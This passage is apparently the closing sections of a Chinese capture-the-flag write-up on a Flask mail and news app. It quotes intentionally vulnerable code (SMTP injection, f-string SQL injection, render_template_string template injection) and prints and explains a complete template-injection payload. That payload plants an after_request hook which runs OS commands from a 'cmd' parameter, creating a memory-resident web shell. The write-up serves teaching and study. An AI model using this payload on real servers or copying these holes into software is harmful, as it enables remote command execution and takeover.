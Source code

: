 - 实施正确的输入验证和输出编码
- 遵循最小权限原则
- 定期安全审计和漏洞扫描
- 保持框架和依赖库更新到最新版本
- 实施日志记录和监控机制

## 6. 关键代码分析

### 6.1 漏洞代码

1. SMTP注入：
```python
smtplib._quote_periods = lambda x: x
mail_content = """From: ignored@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: {url}\r\n\r\n{content}\r\n.\r\n"""
server.sendmail("ignored@ezmail.org", "admin@ezmail.org", mail_content)
```

2. SQL注入：
```python
cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")
```

3. 模板注入：
```python
return render_template_string(f"""
        <h2>Newest Advice(from myself)</h2>
        <div>{page_content}</div>
""")
```

### 6.2 模板注入Payload解析

```
{{url_for.__globals__['__builtins__']['eval']('app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get(\'cmd\') and exec(\'global CmdResp;CmdResp=__import__(\\\'flask\\\').make_response(__import__(\\\'os\\\').popen(request.args.get(\\\'cmd\\\')).read())\')==None else resp)',{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
```

分解解析：
1. `url_for.__globals__['__builtins__']['eval']` - 获取Python的eval函数
2. `app.after_request_funcs.setdefault(None, []).append(...)` - 向Flask全局after_request钩子添加函数
3. `lambda resp: CmdResp if request.args.get('cmd') and ... else resp` - 创建检查cmd参数的函数
4. `exec('global CmdResp;...')==None` - 使用exec执行命令并捕获输出
5. `__import__('os').popen(request.args.get('cmd')).read()` - 系统命令执行
6. 第二个参数`{'request':...,'app':...}` - 为eval提供上下文变量

### 6.3 三重反斜杠的作用

Payload中包含`\\\'`这样的三重反斜杠是为了处理多层转义问题：
1. 第一层：SQL查询中的字符串需要一层转义
2. 第二层：从数据库返回后作为模板表达式的一部分需要再次转义
3. 第三层：在eval函数内部又包含字符串参数需要第三次转义
